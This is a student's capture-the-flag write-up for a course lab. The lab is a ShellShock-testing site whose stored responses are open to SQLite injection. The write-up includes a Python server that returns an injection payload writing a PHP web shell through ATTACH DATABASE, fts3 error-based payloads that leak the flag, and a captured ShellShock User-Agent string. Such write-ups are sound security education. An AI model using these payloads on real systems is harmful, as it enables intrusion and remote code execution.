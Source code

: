 # Write up: shellshock (4-1)

## ymli (0016045)

## our task

This is a site that try to detect CVE-2014-6271, also known as "ShellShock".

I listen on a port at `linux1.cs.nctu.edu.tw` and find that the site will send
the shellshock payload via user agent.

```
$ nc -l 5569
GET / HTTP/1.1
User-Agent: () { :;}; echo 'ShellShockTester_atdog';
Host: 140.113.235.151:5569
Accept: */*
```

According to the web page ...

```
The response will be collected into database.
```

I guess the vulnerability is in the response, that is, we can manipulate a
customized response and try to inject the SQL query.

## injection

I write a simple http server in Python and send my query to the server.

```
#!/usr/bin/python

import random
import http.server
import socketserver

"""
$ nc -l 5569
GET / HTTP/1.1
User-Agent: () { :;}; echo 'ShellShockTester_atdog';
Host: 140.113.235.151:5569
Accept: */*
"""


PORT = 5566 + random.randint(1, 20)


class MyHandler(http.server.SimpleHTTPRequestHandler):

    def __init__(self,req,client_addr,server):
        http.server.SimpleHTTPRequestHandler.__init__(self,req,client_addr,server)

    def do_GET(self):
        r="ShellShockTester_atdog') ;ATTACH DATABASE './gg6.php' AS pwn;CREATE TABLE pwn.exp(dataz text);INSERT INTO pwn.exp(dataz) VALUES('<?php $o=system(\"ls\"); echo $o;?>');-- "
        self.send_response(200)
        self.send_header("Content-length", len(r))
        self.end_headers()
        self.wfile.write(r.encode())
        self.wfile.flush()
        print(r)


httpd = socketserver.TCPServer(("", PORT), MyHandler)

print("serving at port", PORT)
httpd.serve_forever()
```


It seems it's hard to inject the sqlite database, so I use a write-file
vulnerability and make a php file that prints `ls`.

```
http://tor.atdog.tw:8888/gg6.php


gg.php gg1.php gg2.php gg3.php gg4.php gg5.php gg6.php hahahahahahahahhahaimdogandu.db index.css index.php index.php
```

## exploit

```
$ wget hahahahahahahahhahaimdogandu.db
$ sqlite3 hahahahahahahahhahaimdogandu.db
SQLite version 3.8.7.4 2014-12-09 01:34:36
Enter ".help" for usage hints.
sqlite> .tables
oyoyoyoy_____1111flag  results
sqlite> select * from oyoyoyoy_____1111flag;
1|SecProg{SQL1teInject1on_yoooo}
```

# another exploit

atdog teaches me that I can use the "virtual table" approach to pwn it.

Just change the payload of my script to the following.

```
r="ShellShockTester_atdog') ;CREATE VIRTUAL TABLE t1 USING fts3(x);"
r="ShellShockTester_atdog') ;SELECT * FROM t1 WHERE t1 MATCH '\"'|| (select name from sqlite_master limit 0,1););"
r="ShellShockTester_atdog') ;SELECT * FROM t1 WHERE t1 MATCH '\"'|| (select tbl_name from sqlite_master limit 0,1););"
r="ShellShockTester_atdog') ;SELECT * FROM t1 WHERE t1 MATCH '\"'|| (select flag from oyoyoyoy_____1111flag limit 0,1););"

"""
Error message from the web page

DATABASE Msg: malformed MATCH expression: ["oyoyoyoy_____1111flag]
DATABASE Msg: malformed MATCH expression: ["oyoyoyoy_____1111flag]
DATABASE Msg: malformed MATCH expression: ["SecProg{SQL1teInject1on_yoooo}]
"""
```

# reference

[SQLite3 Injection Cheat Sheet](http://atta.cked.me/home/sqlite3injectioncheatsheet)
[PHP/Sqlite下常见漏洞浅析](http://www.91ri.org/10983.html)

